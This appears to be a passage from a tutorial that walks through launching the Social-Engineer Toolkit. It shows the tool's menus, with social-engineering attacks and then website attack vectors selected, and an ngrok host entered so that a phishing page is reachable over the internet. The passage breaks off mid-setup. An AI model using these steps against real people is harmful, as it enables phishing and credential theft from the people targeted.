 
### Now once everything is setup we can start with the attack.

Fire up your setoolkit you should see something like this:

```
[---]        The Social-Engineer Toolkit (SET)         [---]
[---]        Created by: David Kennedy (ReL1K)         [---]
                      Version: 7.7.9
                   Codename: 'Blackout'
[---]        Follow us on Twitter: @TrustedSec         [---]
[---]        Follow me on Twitter: @HackingDave        [---]
[---]       Homepage: https://www.trustedsec.com       [---]
        Welcome to the Social-Engineer Toolkit (SET).
         The one stop shop for all of your SE needs.

     Join us on irc.freenode.net in channel #setoolkit

   The Social-Engineer Toolkit is a product of TrustedSec.

           Visit: https://www.trustedsec.com

   It's easy to update using the PenTesters Framework! (PTF)
Visit https://github.com/trustedsec/ptf to update all your tools!


 Select from the menu:

   1) Social-Engineering Attacks
   2) Penetration Testing (Fast-Track)
   3) Third Party Modules
   4) Update the Social-Engineer Toolkit
   5) Update SET configuration
   6) Help, Credits, and About

  99) Exit the Social-Engineer Toolkit

set> 1
```

Select option 1) from the list & you'll see somthing like this 

```
 Select from the menu:

   1) Spear-Phishing Attack Vectors
   2) Website Attack Vectors
   3) Infectious Media Generator
   4) Create a Payload and Listener
   5) Mass Mailer Attack
   6) Arduino-Based Attack Vector
   7) Wireless Access Point Attack Vector
   8) QRCode Generator Attack Vector
   9) Powershell Attack Vectors
  10) SMS Spoofing Attack Vector
  11) Third Party Modules

  99) Return back to the main menu.

set> 2
```


 [192.168.0.119]:  "Past here"
 [192.168.0.119]: feb91dce.ngrok.io 